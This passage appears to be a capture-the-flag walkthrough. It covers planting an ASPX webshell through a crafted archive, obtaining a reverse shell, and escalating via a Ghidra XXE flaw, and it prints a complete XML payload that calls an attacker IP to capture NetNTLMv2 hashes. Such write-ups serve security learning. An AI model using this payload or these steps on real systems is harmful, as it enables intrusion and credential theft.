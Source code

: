 ![img](assets/MdaNPIC2Rl8s33RI2awJ_r5gV9h-UW60sPrzGPEU4qo9PyXcJVB0iMI2fM_2w8PNPHU8Jrth8ZBuaeOpw2WEva2SEw6GOe_AouzZGLKyjVVR7MOFSQhZrLySobKYO8LooUJEORf-)

A file named “shell.rar” should be generated after following the above steps. The -e parameter is used to specify the file to be extracted (to the path specified by -p), while the -g parameter can be any file. Next, transfer the file to the ods folder.

![img](assets/Tj1aK2rAgkpu6Hc6QLpNOghDyhNXYe38BSl2NqA1T8fEqgw7HzrL2zCFDYxpjQo2IJBlIxYzkLXAm9ZOBl08cnT5Fc7_du_V9SBHfMhT65cEqdsiuRLuhqqNwkJPWzNuGka2kPFy)

The webshell should be found at /cmd.aspx after the file gets processed.

![img](assets/BNpg9rv3tUWhjtCzNKIgVfZsWd4TBKHhIK9EZt2I52QfRy0qHMMh4Un7K9GOOCMLMBpTFBEkrp3O1ekrKLvEtpkzLEPlaehBDkonO6KrYp_h-H-KuyaQtZxxH6xWPS4l8X-hZQBw)

Let’s execute the tcp.ps1 script once again to get a shell as the IIS user.

![img](assets/TApjv3d-ZxKyd0nxxn9k820M9IuFtdn2zvrdfOlZgJr2YYSavhoSmG9HGNiyWZDs3H2EHSP6HiWPEZPhk_NYuWanfK0FakNxJtVKrdk1EfEehvm3ZoEMKFCBXCuXiyhfQ7_LEC9E)

![img](assets/uU1YRXl-IE7Iq04p7CSHhZENwHJ_etsKNwFq_x7h7TZqQKWJ2D62IWtEUcV1FQjeDEb8XqTOXNVisDzv147O5EDHUn-M2GK4EEe9MuJEYkhjrFAYmJ-PhOdqgeqWBUBw7iDjLliw)

## Privilege Escalation

The IIS user has access to the proj_drop folder used to store uploaded Ghidra projects.

![img](assets/R_C_fC9O-fsf4V6TebHAsMw00j-5y_CAAN4SzwrwzNerEjk8-M6j3Fj5AVhsciK4t7axE67y5pheIr4NxvzT4vEMwuLjHKbmya9dNjrORD182NQjrUcHl6x7DwxEV8cV2Q0hppbb)

Ghidra is vulnerable to [XXE](https://github.com/NationalSecurityAgency/ghidra/issues/71) due to improper handling of the XML files present in a project. We can exploit this to steal the NetNTLMv2 hash of the user who opens it. Ghidra can be downloaded from its official website [here](https://ghidra-sre.org/). Extract the contents of the downloaded zip file, and execute the **ghidraRun** binary to start Ghidra. Next, click on File > Project > New Project, enter any name and click Finish.

![img](assets/RkurkUur1RMvqglkzfrR-LPBYFK3VqOnhA1rOrVIWk5umQG-yj6-LYH2PnzSDt9Hyh4wuormYn5vhsnP47635EQwxQ9snxhWaMy1L9IaxxUpWu34z_xxw0NVirhIKs-hS2vXLhQQ)

The folder structure should look like the image above. Now, the project.prp file can be edited to include the XXE payload.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "//10.10.14.2/xxe" >
  %xxe;
]>
<FILE_INFO>
	<BASIC_INFO>
    	<STATE NAME="OWNER" TYPE="string" VALUE="root" />
	</BASIC_INFO>
</FILE_INFO>
```

Upon opening the file, Ghidra will send a request to our machine, and our listening responder will capture the user’s NetNTLMv2 hash. Start Responder, archive the entire directory and transfer it to the proj_drop folder.

![img](assets/pOfJuvLlGDenodwz8aKLlPi6o9pjuaUBfw6vOWclFPYpBynF5OHMmXZ0RWFKCUM98Ol2oTGUmx5n4lSTMPqPq6gg5UeuPuCSiWgJZT0UDiozrvZ5MAcu8ptGMgP185np64cGhtEB)
